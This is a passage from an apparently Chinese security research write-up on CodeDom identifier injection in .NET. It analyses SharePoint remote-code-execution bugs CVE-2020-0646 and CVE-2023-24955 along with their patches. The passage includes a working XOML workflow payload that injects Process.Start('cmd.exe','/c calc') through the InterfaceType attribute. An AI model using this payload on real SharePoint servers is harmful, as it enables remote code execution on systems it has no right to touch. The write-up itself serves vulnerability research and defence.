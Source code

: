 生产的C#源码会像下面这样：

```csharp
System.Type test = typeof(System.String); 
Object/**/test2 = System.Diagnostics.Process.Start("cmd.exe", " / c calc");//);
```

当然，即便跳过生成源码的中间过程，直接将 CodeDom 编译为程序集，也是会被注入的。

**CodeDom 中的所有标识符元素都可以被注入，比如变量名、类型名、命名空间名**。

## 四、 **CVE-2020-0646**

**SharePoint WorkFlow RCE 漏洞**

SharePoint 的 WorkFlow 提供一些受限的 Activity 以供用户编辑自定义工作流，比如事件到达某个节点后给某个人发一封邮件。其中发一封邮件就是一个 Activity。

用户使用 XOML 格式的文件定义一段工作流，SharePoint 根据 XOML 中使用的 Activity 生成 CodeDom 图，然后生成相应源码，再编译成为相应的程序集。最后当工作流启动时，就会加载该程序集并调用其中的方法。

以上过程发生在：System.Workflow.ComponentModel.dll 的 WorkflowCompiler.Compile() 函数中。

但是由于 CodeDom 的注入问题，而 Workflow 在编译时又没有检查，导致了通过工作流进行代码注入。

payload 如下：

```xml
<SequentialWorkflowActivity x:Class="MyWorkflow" x:Name="foobar" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/workflow">
  <CallExternalMethodActivity x:Name="codeActivity1" MethodName='test1' InterfaceType='System.String);}Object/**/test2=System.Diagnostics.Process.Start("cmd.exe","/c calc");private/**/void/**/foobar(){//' />
</SequentialWorkflowActivity>
```

InterfaceType 属性指定的接口类型，在构造 CodeDom 图时被用作 CodeTypeOfExpression 的参数，即被传递给 typeof() 语句。

通过对 InterfaceType 注入可以实现代码执行。

**补丁：**

在进行编译前，调用 CodeGenerator.ValidateIdentifiers(CodeObject) 方法来检查 CodeDom 图中的标识符是否符合语言要求。

CodeGenerator.ValidateIdentifiers() 是 CodeDom 提供的一个检查方法。

补丁是修补在 System.Workflow.ComponentModel.dll 中的，所以这个用于编译工作流的公共组件是已经被修复了。那还会有人/组件 这样使用 CodeDom 吗？

## 五、 CVE-2023-24955

**2023 P2O SharePoint RCE 漏洞**

下面是 SharePoint 的补丁比较内容，红色为新加代码：

 ![](/attachments/2023-12-06-CodeDom-vulnerability-pattern-and-SharePoint-RCE/17906c31-6410-4352-9021-30b0f5a98ea9.png)

经过前面的学习，可以看到一些关键字：CodeDom、IsValidIdentifier，NamespaceName。

Namespace 也是标识符，所以在 CodeDom 中也是存在注入风险的，这里加上了 IsValidIdentifier 似乎表明这里可以被注入，proxyNamespaceName 可以被用户控制吗？要如何触发该位置？
